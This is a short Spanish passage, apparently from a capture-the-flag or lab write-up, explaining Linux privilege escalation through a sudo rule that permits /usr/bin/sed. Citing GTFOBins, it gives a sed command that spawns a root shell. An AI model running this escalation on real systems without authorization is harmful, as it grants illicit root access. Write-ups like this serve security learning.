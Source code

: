 ![image](https://github.com/user-attachments/assets/57faf573-d602-42d4-8992-d573c33a67da)

Podemos ejecutar como cualquier usuario el binario `/usr/bin/sed`. Volvemos a [gtfobins](https://gtfobins.github.io/):

![image](https://github.com/user-attachments/assets/7fbf44b0-0770-40fa-81e6-61d1dce83e7f)

Ejecutamos el comando:

```python
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

![image](https://github.com/user-attachments/assets/f88ab75e-3ab4-4edf-a604-c1e50bf0d012)

Y ganamos una consola como root.
